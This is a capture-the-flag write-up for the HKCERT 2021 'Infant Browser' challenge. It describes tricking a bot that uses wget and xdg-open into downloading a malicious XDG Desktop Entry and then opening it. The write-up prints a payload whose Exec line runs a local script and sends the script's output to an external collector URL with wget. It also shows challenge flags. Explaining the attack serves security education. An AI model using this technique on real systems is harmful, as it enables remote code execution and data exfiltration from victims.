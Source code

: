 Flag: `hkcert21{w0rds_fr0m_3mpt1n3ss}`  
  
## Infant Browser (pwn web 50 pts)  
### Challenge:  
<http://chal-s1.hkcert21.pwnable.hk:28098/>  
<http://chal-s2.hkcert21.pwnable.hk:28098/>  

What if someone uses wget as the browser? Flag: find the flag in the root directory with name `/proof*.sh`

NOTE: Both links serve the same challenge. You may choose any one of them.

UPDATE (12 Nov 21:52): Updated link to challenge server.

* * * * *

-   The objective of this kind of challenges is to send a malicious webpage / URI to steal sensitive information or even execute arbitrary code in the victim's machine. Unlike XSS where the impact is limited to the victim's account in a particular website, a browser / desktop app exploit, or client-side attack in general, may compromise the entire victim's machine.

-   In this challenge, we are allowed to send the victim an arbitrary URI and they will open it with `xdg-open` (just like clicking on links in a browser). To trick a victim to execute arbitrary code, we can craft an XDG Desktop Entry, which could specify what command to be executed.

-   But before we can trick the victim to open the Desktop Entry, we need to write the Desktop Entry to somewhere in the local filesystem. This could be done since the victim is using `wget` as the browser, and the current working directory is writable.

-   For example, you can upload a Desktop Entry file named `example.desktop` to your website (e.g. Github page), and then ask the victim bot to download it

```
[Desktop Entry]
Exec=sh -c "wget https://xxxxxxxxxxxxxxx.m.pipedream.net/?`/proof*.sh`"
Type=Application
```

-   If this Desktop Entry is opened, then it will execute the command after `Exec=`, which will first execute `/proof*.sh` and obtain the output, and execute `wget https://xxxxxxxxxxxxxxx.m.pipedream.net/?(the output from executing /proof*.sh)`, which allows you to capture the flag

-   Once the `example.desktop` file is written, you can ask the victim bot to open `file:///tmp/example.desktop` so that they will execute the code you planted before

-   But make sure you use a unique filename for the Desktop Entry file since the challenge platform is common to every participants

-   Too easy for you? Now you can try babyURIi...

### Attachment
- [infantbrowser_6939c231042fd155a512940cd0982f76.zip](https://github.com/6cyril/ctf-writeups/blob/master/HKCERT%20CTF%202021/files/infantbrowser_6939c231042fd155a512940cd0982f76.zip)

### Solution:  
Create a VM online, follow challenge instructions  
